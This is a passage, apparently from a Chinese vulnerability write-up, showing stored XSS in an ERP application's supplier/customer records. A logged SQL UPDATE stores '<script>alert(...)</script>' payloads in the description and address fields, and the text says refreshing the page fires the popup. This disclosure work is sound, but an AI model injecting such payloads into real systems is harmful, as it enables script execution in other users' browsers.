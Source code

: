[![](assets/1711556055-e02aa1db5670495ed23b93094531f9a1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233422-5f64d1ce-c117-1.png)

后台执行的 SQL 语句

```plain
UPDATE jsh_supplier SET supplier = '客户 1', contacts = '小李', phone_num = '12345678', email = '', description = '<script>alert(\'desc\')</script>', type = '客户', enabled = 1, begin_need_get = '0', begin_need_pay = '0', all_need_get = '80', fax = '', telephone = '', address = '<script>alert(\'address\')</script>', tax_num = '', bank_name = '', account_number = '', tax_rate = '12' WHERE jsh_supplier.tenant_id = 63 AND id = 58
```

刷新界面触发 XSS 弹窗

[![](assets/1711556055-322d2fc21ffd2f8d7b86af0bcfdbb80c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233435-6774066e-c117-1.png)

### 其他漏洞点

[![](assets/1711556055-9dd9b49889f2f9e66a0907a32daf5043.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233446-6ded6800-c117-1.png)
